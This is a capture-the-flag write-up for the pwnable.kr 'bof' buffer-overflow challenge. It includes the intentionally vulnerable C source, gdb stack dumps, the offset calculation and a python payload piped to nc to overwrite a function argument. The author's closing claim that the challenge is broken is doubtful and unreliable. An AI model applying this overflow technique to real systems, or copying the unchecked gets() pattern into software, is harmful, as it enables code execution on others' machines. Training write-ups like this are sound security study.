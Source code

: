 # bof - pwnable.kr
- Challenge Name: __bof__
- Challenge category: __pwn__
- Challenge Difficulty: __easy__
- CTF Year and Date: __2025__
- Date: __2025-05-12__

## Challenge Description
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

# Information Gathering
The challenge is hosted on an server, that may be accessed by ssh:
`ssh bof@pwnable.kr -p2222 (pw: guest)`

```shell
bof@ubuntu:~$ ls -la
total 44
drwxr-x---   2 root bof   4096 Apr  3 16:04 .
drwxr-xr-x 129 root root  4096 May  6 09:27 ..
-rw-r--r--   1 root root   220 Feb 14 11:22 .bash_logout
-rw-r--r--   1 root root  3771 Feb 14 11:22 .bashrc
-rw-r--r--   1 root root   811 Apr  3 16:04 .profile
-rwxr-xr-x   1 root bof  15300 Mar 26 13:03 bof
-rw-r--r--   1 root root   342 Mar 26 13:09 bof.c
-rw-r--r--   1 root root    86 Apr  3 16:03 readme
```
Get the file information
```shell
file bof
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1cabd158f67491e9edb3df0219ac3a4ef165dc76, for GNU/Linux 3.2.0, not stripped
````

```shell
bof@ubuntu:~$ checksec --file bof
[!] Could not populate PLT: [Errno 12] Cannot allocate memory
[*] '/home/bof/bof'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

````

The binary has stack protection enabled (canary) and has position-independent code (PIC) enabled. The binary runs properly regardless of the memory location it’s loaded at, i.e., the memory location doesn’t need to be a fixed address.

The source code of the binary is provided in `bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		setregid(getegid(), getegid());
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
````

The readme contains insructions on how to get the flag: 
```shell
cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
```

## Vulnerability
The binary has a buffer overflow vulnerabilty: The gets() function performs no check on the size of the input. It will keep on accepting input until a newline is encountered irrespective of the size of the variable in which the input is being stored. This property is described as a lack of ‘bounds checking’.

Because canaries are used (see checksec output), the stack is protected against overflow-attacks: 

```shell
bof@ubuntu:~$ ./bof
overflow me : 1234567890123456789012345678901234
Nah..
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

## Summary of recon
- A binary with a buffer overflow vunerabilty
- The binary has stack protection enabled (canary)

# Solution/Exploit
## Task
To get the shell, we must overwrite the function local variable with the value `0xcafebabe`. This can be done with a payload that gets read by the gets() function and will overflow the `overflowme` buffer. However, we can possibly ignore the stack protection (canary), because we get shell BEFORE the function returns control to main (where stack manipulation will be detected.)

## Strategy

1. Use the debugger on the target system to calculate the offset needed to overwrite the function parameter

```shell
gdb
pwndbg> file bof
pwndbg> start
```

Use next, step and disassemble to find the position, where gets() returns, just before the parameter gets compared to the constant value of `0xcafebabe`. Then hit c (contiune) - we enter the string `AAAABBBBCCCCDDDDEEEEFFFF` on the stack, we can see that the value of the parameter is on the stack 7 * 4 bytes after the end of the overflowme buffer:

```text
pwndbg> x/40wx $sp
0xffffd4f0:	0xf7ffd608	0x00000020	0x00000000	0x41414141
0xffffd500:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd510:	0x46464646	0x00000000	0xf7d954be	0x8899f900
0xffffd520:	0xf7fa7000	0xffffd614	0xffffd548	0x565562c5
0xffffd530:	>0xdeadbeef<	0xf7fbe66c	0xf7fbeb30	0x565562b3
0xffffd540:	0x00000001	0xffffd560	0xf7ffd020	0xf7d9e519
0xffffd550:	0xffffd753	0x00000070	0xf7ffd000	0xf7d9e519
0xffffd560:	0x00000001	0xffffd614	0xffffd61c	0xffffd580
0xffffd570:	0xf7fa7000	0x5655629d	0x00000001	0xffffd614
0xffffd580:	0xf7fa7000	0xffffd614	0xf7ffcb80	0xf7ffd020
```

We can calculate the distance between our input and 0xdeadbeef easily, each hex value represents 4 bytes (0x41414141 == AAAA) and we have exactly 13 of them before 0xdeadbeef.

We can create the payload using a simple python script and pass it to nc: 

```shell
python3 -c "import sys; sys.stdout.buffer.write(b''.join([b'A' * 52]) + b'\xbe\xba\xfe\xca' + b'\n')" | nc 0 9000 
````

But there is no shell. However, when we alter the value of that should overwrite the parameter `key`we get a `stack smashed` warning: 

```shell
bof@ubuntu:~$ python3 -c "import sys; sys.stdout.buffer.write(b''.join([b'A' * 52]) + b'\xbe\xba\xfe\xce' + b'\n')" | nc 0 9000
*** stack smashing detected ***: terminated
```

# Conclusion
- The challenge seems to be broken. 

# References

